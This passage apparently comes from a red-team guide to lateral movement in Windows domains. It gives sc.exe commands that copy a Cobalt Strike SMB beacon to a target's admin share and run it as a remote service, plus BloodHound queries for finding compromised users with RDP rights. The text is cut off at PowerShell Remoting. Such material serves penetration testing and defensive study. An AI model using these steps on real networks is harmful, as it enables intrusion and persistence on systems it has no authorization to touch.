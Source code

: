 It is possible to create services within a remote machine using the `sc.exe` utility as following:

```
copy smb-beacon.exe \\TARGET\C$\windows\temp
sc \\TARGET create TestService binpath= "C:\windows\temp\smb-beacon.exe"
sc \\TARGET start TestService

# from cobalt
link TARGET

# clean
sc \\TARGET delete TestService
```

The concept is similar to the WMI example, we upload the SMB beacon onto the target machine and create a service that executes the beacon.
It must be noted that the beacon used for this technique should be a service executable and not a regular one.

## Remote Desktop Protocol

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
No | `Remote Desktop Users` | T1076

If you're part of the `Remote Desktop Users` group within a remote system, you may be able to use RDP to log into the target system.

Within BloodHound the ability to login using RDP is represented by the connector `CanRDP`.

A simple cypher query to find all the users that can RDP into other machines is:
```
MATCH p=()-[:MemberOf*0..]->(g:Group)-[r:CanRDP]->() RETURN p
```

If visualised using neo4j browser, it will appear something like the following:

![](56f6feb1d24b2b15d8fe8a574729152e.png)

Obviously the query should be tuned to include only the users that we actually compromised:

```
MATCH p=({owned: true})-[r:CanRDP]->() RETURN p
```
![](77574cdc75793e0fae95097444edef6c.png)


## PowerShell Remoting

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
No | `Remote Management Users`,`Administrators` | T1028


It is possible to obtain an interactive PowerShell prompt using PS Remoting using the following cmdlet:
